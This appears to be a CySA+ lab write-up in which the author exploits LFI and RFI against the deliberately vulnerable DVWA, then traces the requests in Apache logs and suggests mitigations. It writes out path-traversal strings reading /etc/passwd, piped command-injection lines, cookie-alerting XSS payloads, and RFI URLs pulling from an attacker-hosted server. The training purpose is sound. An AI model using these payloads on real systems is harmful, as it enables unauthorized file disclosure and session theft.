









# Assisted Lab: Performing and Detecting LFI/RFI

## Overview

In this lab, I performed and investigated **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** exploits against a vulnerable web application, DVWA (Damn Vulnerable Web Application). The objective was to gain hands-on experience in identifying and exploiting file inclusion vulnerabilities and then locating indicators of compromise (IoCs) in Apache logs.

---

## Objectives

This lab aligns with the following **CompTIA CySA+ objectives**:

- 1.1: System and network architecture in security operations
- 1.2: Analyze indicators of malicious activity
- 1.3: Use appropriate tools to determine malicious activity
- 1.4: Threat intelligence and threat hunting concepts
- 2.4: Recommend controls to mitigate software vulnerabilities
- 3.2: Perform incident response activities
- 3.5: Attack methodology frameworks

---

## Environment

- **Attacker VM:** Kali Linux (KALI)
- **Target VM:** Ubuntu Server with DVWA (LAMP)
- **Tools Used:** Firefox, wget, Apache logs, python web server, terminal

---

## Part 1: Local File Inclusion (LFI) Exploitation

### File Inclusion Behavior

- Explored page parameter:
  - ?page=file1.php
  - ?page=file2.php
  - ?page=file3.php
  - ?page=file4.php


**URL bar showing ?page=file4.php** with page output confirming inclusion.

---

### Directory Traversal & Command Injection

- Used command injection:

```bash
| ls -l ../../
| ls -lR ../../hackable
```

- Found: `fi.php` under `hackable/flags/`


**Command injection output listing /hackable/flags contents**

---

### Accessing fi.php and Hidden Quotes

- Inclusion via LFI:

```bash
  ?page=../../hackable/flags/fi.php
```

- Retrieved contents using:

```bash
| cat ../../hackable/flags/fi.php
wget http://dvwa.structureality.com/hackable/flags/fi.php
```


**Terminal view of fi.php contents via wget and cat**

---

### Copying and Renaming Files for Safe Access

- Copied PHP file as `.txt` to prevent execution:

```bash
| cp ../../hackable/flags/fi.php ../../hackable/uploads/fi.txt
```



**File list of uploads directory showing fi.txt and fi.php**

---

### Accessing Sensitive System Files

- Attempted LFI of sensitive file:

```bash
?page=../../../../../../etc/passwd
```


**Visible contents of /etc/passwd displayed in browser**

---

## Part 2: Remote File Inclusion (RFI) Exploitation

### Hosting Malicious Payload

- Started Python HTTP server on attacker VM:

```bash

python -m http.server 9999
```

- Created payload files:

```bash
echo 'This is a test' > index.html
echo '<script>alert("You are hacked!")</script>' > index2.html
echo '<script>alert(document.cookie)</script>' > index3.html
```

### Triggering Remote Inclusion

- Edited URL to include remote file:

```bash
?page=http://10.1.16.66:9999/index2.html
?page=http://10.1.16.66:9999/index3.html
```



Browser pop-ups: “You are hacked!” and document.cookie alert

## Part 3: Investigating Apache Logs

### Access Apache Logs

- Switched to LAMP and used:

```bash
cd /var/log/apache2
less access.log
```



Terminal viewing access.log with highlighted suspicious GET requests

### Log Analysis Summary

- Found evidence of LFI via:

```bash
GET /vulnerabilities/fi/?page=file4.php
GET /vulnerabilities/fi/?page=../../hackable/flags/fi.php
GET /vulnerabilities/fi/?page=../../../../../../etc/passwd
```

- Found RFI evidence via:

```bash
GET /vulnerabilities/fi/?page=http://10.1.16.66:9999/index2.html
```

- Identified user-agent for wget file pull:

```bash
Wget/1.21.3
```

## Conclusion

This lab demonstrated:

- The risk of improper input sanitization.
- How LFI and RFI vulnerabilities can lead to code execution and data exposure.
- How attackers combine techniques like directory traversal and XSS with file inclusion.
- The value of log analysis for identifying IoCs.

## Suggested Improvements

- Enforce input validation and sanitization.
- Disable remote file inclusion in PHP (allow_url_include=Off).
- Log and monitor access to sensitive URLs.
- Implement WAF and alerting for abnormal parameter values.
